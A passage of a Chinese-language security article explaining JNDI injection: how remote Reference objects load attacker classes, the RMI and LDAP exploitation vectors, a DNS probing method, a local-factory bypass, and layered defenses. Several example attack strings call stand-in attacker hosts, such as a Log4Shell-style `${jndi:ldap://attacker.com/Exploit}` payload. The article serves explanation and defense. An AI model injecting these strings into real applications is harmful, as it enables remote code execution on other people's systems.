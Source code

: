 JNDI注入的攻击机制主要利用了JNDI **Reference** 的特性。Reference对象可以指向一个外部的类定义，指定类名（className）、工厂类名（factory）以及一个用于加载工厂类的codebase地址（factoryLocation）。当客户端在执行 `lookup()`时，如果从服务端获取到一个Reference对象，并且其factoryLocation指向一个远程地址，客户端会尝试从该地址（如HTTP服务器）下载工厂类的字节码，然后使用**URLClassLoader** 进行加载和实例化。攻击者可以在工厂类的静态代码块、构造函数或 `getObjectInstance()`方法中嵌入**恶意代码**（如执行系统命令），这些代码在类加载和实例化过程中就会被执行，从而在目标系统上实现远程代码执行（RCE）。

一个典型的JNDI注入攻击流程包含以下几个步骤：

1. **攻击者搭建恶意服务**：攻击者首先需要搭建一个恶意的RMI或LDAP服务器（例如使用marshalsec工具），并将一个恶意的Reference对象绑定到该服务器上。这个Reference指向攻击者控制的另一个HTTP服务器，该HTTP服务器托管着包含恶意代码的工厂类（.class文件）。
2. **诱使目标进行JNDI查找**：攻击者通过某种方式（如输入表单、HTTP请求头、日志记录等）将恶意JNDI地址（如 `${jndi:ldap://attacker.com/Exploit}`）注入到目标应用程序中。一个著名的例子是Log4Shell漏洞（CVE-2021-44228），攻击者通过注入恶意的日志消息触发漏洞。
3. **目标应用程序执行查找**：当目标应用程序处理该输入并执行 `lookup()`操作时，它会向攻击者控制的恶意服务器发起请求。
4. **恶意服务器返回Reference**：恶意RMI或LDAP服务器响应请求，返回一个精心构造的Reference对象。
5. **目标加载并执行恶意代码**：目标应用程序的JNDI客户端解析Reference对象，并从指定的codebase（攻击者的HTTP服务器）下载恶意工厂类。随后，在实例化该工厂类的过程中，嵌入其中的恶意代码得以执行，攻击者从而获得对目标系统的控制权。

### 3 JNDI 注入的利用方式

JNDI注入的利用方式主要根据所利用的协议向量来区分，其中**RMI**和**LDAP**是最为常见的两种利用向量。不同的向量在攻击设置和细节上有所不同，但最终目标都是诱导客户端加载并执行远程恶意代码。

1. **RMI向量利用**：RMI（Remote Method Invocation）是Java自身的远程方法调用机制。在利用RMI进行JNDI注入时，攻击者需要搭建一个恶意的RMI注册服务器。首先，攻击者使用 `Reference`类构造一个恶意引用，指定要加载的恶意类名和工厂类的位置（通常是一个远程HTTP URL）。由于RMI registry本身不能直接存储 `Reference`对象，攻击者会使用 `ReferenceWrapper`类对其进行包装，然后将其绑定到RMI registry的某个名称下（例如 `registry.bind("Exploit", new ReferenceWrapper(ref))`）。当受害者应用程序执行 `ctx.lookup("rmi://attacker-ip:1099/Exploit")`时，它会连接到恶意的RMI服务器，服务器返回这个 `ReferenceWrapper`。客户端随后会从 `factoryLocation`指定的远程HTTP服务器下载恶意类字节码，并进行实例化，从而导致恶意代码执行。在JDK高版本（>= 8u121）中，系统属性 `com.sun.jndi.rmi.object.trustURLCodebase`默认设置为false，阻止了从远程codebase加载类，使得这种利用方式在一定程度上被缓解。
2. **LDAP向量利用**：LDAP（Lightweight Directory Access Protocol）是一种轻量级目录访问协议。利用LDAP向量时，攻击者会搭建一个恶意的LDAP服务器（例如使用OpenLDAP或Java工具）。当受害者应用程序向恶意LDAP服务器发起查询请求时（例如 `ctx.lookup("ldap://attacker-ip:1389/cn=exploit,dc=example,dc=com")`），攻击者控制的LDAP服务器可以返回一个包含恶意Reference信息的目录条目（Entry）。该条目通常会设置 `javaClassName`属性以及 `javaCodeBase`、`objectClass`等属性来指向远程的恶意类。与RMI向量类似，客户端在解析该响应后，也会尝试从指定的codebase URL下载并实例化工厂类，触发代码执行。高版本JDK（>= 8u191）同样通过将系统属性 `com.sun.jndi.ldap.object.trustURLCodebase`默认设置为false来限制远程加载，增加了利用难度。

除了RMI和LDAP，**DNS** 等其它协议有时也被用于JNDI注入的辅助验证。例如，攻击者可以注入一个指向自己控制的DNS域的JNDI地址（如 `dns://attacker-domain.com`）。虽然DNS协议本身通常不能直接用于传输恶意Reference并执行代码，但如果目标应用程序发起了对攻击者域名的DNS查询，这至少可以证明存在**可控的JNDI查找点**，为后续利用其他向量提供线索。这是一种低干扰的漏洞探测方法。

值得注意的是，在高版本JDK默认防护措施生效后，攻击者并未完全放弃，而是研究出一些**绕过限制**的方法。例如，利用目标ClassPath中已有的、具有危险方法的类（如Tomcat中的 `org.apache.naming.factory.BeanFactory`结合EL表达式）作为ObjectFactory，从而在不依赖远程codebase的情况下实现本地代码执行。这些方法对攻击环境提出了更苛刻的要求，但依然值得警惕。

### 4 JNDI 注入的防御策略

防御JNDI注入需要采取多层次、纵深的安全策略，从代码开发、环境配置到网络层面进行全面加固。以下是一些关键且有效的防御措施：

- **升级JDK版本并及时打补丁**：这是最直接有效的防御手段。将JDK升级到**安全版本**（如JDK 8u191、11.0.1及以上），这些版本默认将 `com.sun.jndi.rmi.object.trustURLCodebase`和 `com.sun.jndi.ldap.object.trustURLCodebase`等关键系统属性设置为 `false`，从根本上禁止了JNDI从远程codebase加载类的行为，极大地遏制了最常见的远程利用方式。同时，密切关注Java官方发布的安全更新，并及时应用补丁，以修复新发现的安全漏洞。
- **对用户输入进行严格的过滤和验证**：在所有可能传递给JNDI API（尤其是 `lookup()`方法）的**用户输入点**实施严格的输入验证。坚决禁止输入中包含诸如 `ldap://`、`rmi://`、`dns://`、`${jndi:`等可能导致协议解析或表达式解析的危险**模式（Pattern）** 或**前缀**。建议采用白名单机制，只允许预期的、安全的字符和模式。对于日志记录等场景，确保在记录日志前对输入进行转义或过滤，防止像Log4Shell这样的漏洞被触发。
- **避免不可信输入直接控制JNDI查找**：从代码设计层面，**尽量避免**使用来自用户请求、网络传输等不可信来源的数据直接拼接或构造JNDI查找的名称（Name）。如果业务确实需要动态查找，应使用预定义的、受信任的资源名称映射，或通过间接的方式（如查询数据库配置）来获取安全的JNDI名称。
- **配置网络访问控制策略**：通过网络防火墙或安全组策略，严格限制应用程序服务器的**出站网络连接**。只允许应用程序访问其正常运行所必需的、受信任的**内部命名和目录服务**（如内网LDAP服务器、RMI注册中心），并阻断所有到外部未知服务器的访问请求。这样可以有效防止应用程序在遭受攻击时向外部恶意服务器发起连接，即使攻击注入了恶意地址。
- **使用JVM安全属性强化策略**：除了依赖高版本的默认设置，还可以在启动JVM时**显式设置**相关的安全属性，明确禁用远程类加载功能，例如添加 `-Dcom.sun.jndi.rmi.object.trustURLCodebase=false -Dcom.sun.jndi.ldap.object.trustURLCodebase=false`等参数。这为安全策略提供了一层明确的保证。
- **最小权限原则和代码审计**：遵循最小权限原则运行Java应用程序，避免使用过高权限的账户（如root或Administrator）。定期进行**代码安全审计**，重点关注所有调用了 `InitialContext.lookup()`、`NamingManager.getObjectInstance()`等方法的代码段，确保其参数可控性和安全性。同时，使用**运行时应用程序自我保护（RASP）** 或**Web应用防火墙（WAF）** 等安全产品，可以帮助检测和拦截恶意的JNDI注入尝试。
